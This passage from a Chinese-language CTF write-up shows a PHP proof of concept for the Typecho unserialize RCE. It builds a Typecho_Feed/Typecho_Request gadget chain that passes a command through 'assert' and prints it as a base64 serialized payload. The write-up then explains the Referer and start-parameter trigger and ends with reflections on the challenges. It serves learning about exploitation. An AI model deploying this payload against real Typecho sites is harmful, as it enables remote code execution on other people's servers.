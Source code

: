 private $_items;

public function __construct() {

//$this->_type = $this::RSS2;

$this->_type = $this::ATOM1;

$this->_items[0] = array(

'category' => array(new Typecho_Request()),

'author' => new Typecho_Request(),

);

}

}

class Typecho_Request

{

private $_params = array();

private $_filter = array();

public function __construct() {

$this->_params['screenName'] = $GLOBALS[cmd];

$this->_filter[0] = 'assert';

}

}

$exp = array(

'adapter' => new Typecho_Feed(),

'prefix' => 'typecho_'

);

echo base64_encode(serialize($exp));

?>

生成payload之后再来触发反序列化条件，但是这个题并没有看到session_start()，貌似只能找找其他触发点了：

![209117](img/ecf64e5806a85f442d50a4fd789ac6ff.png)

finish参数由于没有session已经被阻挡了

如果有start参数，并且Referer设置为本站时，可以触发反序列化操作，进行RCE

![209117](img/ecf64e5806a85f442d50a4fd789ac6ff.png)

总结

总的来说，做的这三个EZ题目难度没有特别大，但是出的质量也还挺好的，也是强化了一些思维，比如针对url想到CRLF或者SSRF探测内网，nodejs题目多往沙箱逃逸方向思考，善于利用Github等等，总而言之，对自己而言收获还是很大的